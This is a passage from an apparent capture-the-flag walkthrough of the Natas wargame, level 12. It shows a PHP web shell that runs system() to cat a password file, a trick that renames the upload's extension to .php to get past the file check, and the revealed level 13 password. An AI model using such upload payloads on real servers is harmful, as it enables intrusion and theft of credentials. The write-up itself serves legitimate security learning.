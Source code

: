 ```php
<?php
echo system ("cat /etc/natas_webpass/natas13");
?>
```

![image](/assets/images/level-12-6.png)

The file's extension is automatically set to `.jpg`, let's change it to `.php`.

![image](/assets/images/level-12-7.png)

The file hass been successfully uploaded as `.php`.

Let's click on the path to view

![image](/assets/images/level-12-8.png)

The password of level 13 is **trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC**

## Level 13
